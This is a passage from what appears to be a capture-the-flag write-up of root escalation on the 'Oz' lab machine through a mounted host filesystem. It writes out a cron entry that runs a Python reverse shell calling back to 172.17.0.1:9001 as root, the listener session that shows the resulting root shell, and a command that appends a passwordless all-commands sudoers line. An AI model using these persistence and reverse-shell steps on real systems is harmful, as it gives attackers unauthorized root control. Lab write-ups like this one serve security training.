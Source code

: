 ### Cron

Create two files:
- `/rootfs/etc/cron.d/shell`:

  ```

  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  * * * * *   root    python /tmp/shell.py

  ```
- `/rootfs/tmp/shell.py`:

  ```

  import socket
  import subprocess
  import os
    
  s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("172.17.0.1", 9001))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  p=subprocess.call(["/bin/sh","-i"])

  ```

Start listener on Oz, and get callback as root:

```

dorthi@Oz:~$ nc -lnvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from [10.10.10.96] port 9001 [tcp/*] accepted (family 2, sport 44048)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
Oz

```

### sudoers

Editing the `/etc/sudoers` file is even easier:

```

/rootfs/etc # chmod 600 sudoers
/rootfs/etc # echo "dorthi ALL=(ALL) NOPASSWD: ALL" >> sudoers

```
